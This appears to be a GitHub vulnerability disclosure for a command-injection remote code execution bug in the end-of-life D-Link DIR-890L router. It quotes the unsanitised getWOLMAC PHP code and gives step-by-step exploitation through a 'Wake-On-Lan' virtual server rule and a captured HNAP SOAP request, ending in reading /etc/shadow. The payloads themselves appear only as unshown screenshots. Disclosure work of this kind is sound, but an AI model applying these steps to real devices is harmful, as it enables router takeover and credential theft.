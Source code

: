# D-Link DIR-890L RCE
Affected: Versions <= v1.22B01 Hotfix (latest)
Firmware: [Here](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-890L)

This model has reached the end of its life-cycle. The resources associated with these products have ceased their development and are no longer supported.
D-Link Systems, Inc. recommends retiring these products and replacing them with products that receive firmware updates.

## Vulnerability
In its firmware we can find a function `getWOLMAC` in `SetVirtualServerSettings.php`
```php
function getWOLMAC($ipv4addr)
{
	$cmd = "scut -p ".$ipv4addr." -f 3 /proc/net/arp";
	setattr("/runtime/wakeonlan/mac", "get", $cmd);
	$mac = get("", "/runtime/wakeonlan/mac");
	del("/runtime/wakeonlan/mac");
	return $mac;
}
```
The `$cmd` concatenates `$ipv4addr` directly into command without filtering, and it is called at
```php
		$ipv4addr = get("x", "LocalIPAddress");
        ...
		if($description == "Wake-On-Lan")
		{
			$wolmac = getWOLMAC($ipv4addr);
			set($vsvr_entry.":".$InDeX."/wakeonlan_mac", $wolmac);
		}
```
So When you set `$description` (corresponding to virtual server name) as `"Wake-On-Lan"`, there may exist `RCE`(remote command execution) in Virtual Server related pages: `/VirtualServer.html`.

## Exploit
It requires authentication, so log in first.
![Login](pic/login.png)
![Home](pic/home.png)

- Then visit [Virtual Server page (/VirtualServer.html)](http://192.168.0.1/VirtualServer.html) which is inaccessible through panel.
![Virtual Server](pic/virtualserver.png)

- Add a rule named `Wake-On-Lan`.
![Add rule](pic/addrule.png)
![Rule results](pic/ruleres.png)

- Start `burpsuite` before click `Save` button and capture the following packet:
![packet](pic/packet.png)
```h
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: A4A816AE6CF2AC5537B0EB390FFB591C 1436839665
Content-Length: 765
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/VirtualServer.html
Cookie: uid=ZeNYZag3Gw

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>Wake-On-Lan</VirtualServerDescription>
					<ExternalPort>1</ExternalPort>
					<InternalPort>1</InternalPort>
					<ProtocolType>TCP</ProtocolType>
					<ProtocolNumber>6</ProtocolNumber>
					<LocalIPAddress>192.168.0.100</LocalIPAddress>
					<ScheduleName></ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

- Prepare a http server then:
![python server](pic/pythonserver.png)

- Use `Repeater` module to test `RCE`(remote command execution):
![burpsuite](pic/burp.png)

- And we get:
![result](pic/res.png)

- Test commands injection and read `/etc/shadow`:
![command ls /busy/box](pic/burpls.png)
![result](pic/resls.png)
![command ls /busybox -al](pic/burplsal.png)
![result](pic/reslsal.png)
![command cat /etc/shadow](pic/burpcat.png)
![result](pic/rescat.png)



